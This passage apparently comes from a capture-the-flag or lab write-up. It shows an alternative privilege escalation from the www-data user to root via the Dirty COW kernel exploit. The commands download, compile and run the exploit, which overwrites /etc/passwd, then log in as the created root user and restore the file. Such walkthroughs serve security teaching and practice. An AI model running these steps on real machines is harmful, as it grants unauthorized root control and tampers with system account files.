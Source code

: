 *ALTERNATIVE PRIV ESC*

Once we are in the system as www-data, we can check the kernel version using the following command 
```uname -a```

After a short search we find that there are some kernel exploits which could work here. One of them is Dirty COW, we will use this one https://github.com/firefart/dirtycow

We compile it using the next command
```cd /tmp && gcc -pthread dirty.c -o dirty -lcrypt && ./dirty rootpass```

Now log in as root (now named firefart)
```su firefart```
```mv /tmp/passwd.bak /etc/passwd```
```id```
